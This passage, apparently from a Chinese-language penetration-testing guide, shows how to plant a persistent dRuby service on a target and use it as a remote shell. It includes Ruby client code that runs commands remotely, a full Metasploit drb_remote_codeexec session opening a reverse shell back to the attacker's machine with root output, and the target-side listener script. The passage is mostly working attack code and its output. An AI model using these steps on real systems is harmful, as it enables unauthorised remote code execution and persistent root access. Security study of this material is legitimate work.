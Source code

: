 ## 客户端

```
rshell = DRbObject.new_with_uri("druby://192.168.0.13:8080")
puts rshell.exec "id" 
```

或者你可以使用 Metasploit 模块来获得一个优雅的 shell！

```
msf > use exploit/linux/misc/drb_remote_codeexec 
msf exploit(drb_remote_codeexec) > set URI druby://192.168.0.13:8080
uri => druby://192.168.0.13:8080
msf exploit(drb_remote_codeexec) > exploit 

[*] Started reverse double handler
[*] trying to exploit instance_eval
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UAR3ld0Uqnc03yNy;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "UAR3ld0Uqnc03yNy\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.0.18:4444 -> 192.168.0.13:57811) at 2015-12-24 01:11:30 +0300

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root) 
```

正如你所看到的，即使你失去了会话，你也可以一次又一次地连接；这是一个服务，记住了吗？

注意：仅仅为了使用 Metasploit 模块，你甚至不需要 RShell 类。你只需要目标端的以下内容。

```
#!/usr/bin/env ruby
require 'drb'
DRb.start_service("druby://0.0.0.0:8080", []).thread.join 
```

我建议在 Metasploit 不可用的情况下使用第一个代码。

**参考资料**

+   [Metasploit 技术细节](http://blog.recurity-labs.com/archives/2011/05/12/druby_for_penetration_testers/)

+   [dRuby 书籍](https://pragprog.com/book/sidruby/the-druby-book)

# VirusTotal
